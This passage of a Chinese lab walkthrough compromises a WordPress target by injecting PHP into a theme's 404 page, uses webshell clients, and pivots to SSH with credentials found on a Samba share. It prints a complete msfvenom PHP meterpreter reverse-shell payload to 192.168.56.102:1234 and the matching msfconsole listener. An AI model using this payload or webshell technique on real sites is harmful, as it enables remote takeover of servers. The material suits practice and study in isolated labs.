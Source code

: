 
> 
在`\wordpress\wp-content\themes\twentyfifteen\`找到编辑过后的php文件，测试命令执行漏洞，成功触发恶意代码


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/921d732b21aa4a778cd5d9a44a481c56.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4fa4e769b75a4f32a36421b1e79a7ce2.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
蚁剑连接，发现无法连接成功，看别的大师傅的教程说只要菜刀才能连接成功，个人测试后发现`doughnuts`可以连接成功但是无法执行命令


> 
注意到wordpress页面频繁出现`togie`，猜想可能是ssh账号，同时在samba服务查看到一个文件，疑似密码


> 
用Xshell连接ssh，成功getshell


#### 补充：绕过蚁剑等工具无法使用下getshell

> 
这里可以通过404页面写入php反弹shell代码来反弹shell从而绕过部分工具连接shell没有效果


> 
生成一个php的反弹shell


```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=1234 R &gt; shell.php

```

> 
shell内容


```
/*&lt;?php /**/ error_reporting(0); $ip = '192.168.56.102'; $port = 1234; if (($f = 'stream_socket_client') &amp;&amp; is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s &amp;&amp; ($f = 'fsockopen') &amp;&amp; is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s &amp;&amp; ($f = 'socket_create') &amp;&amp; is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) &lt; $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') &amp;&amp; ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();

```

> 
在`msfconsole`中起一个监听


```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.56.102
set lport 1234
run

```
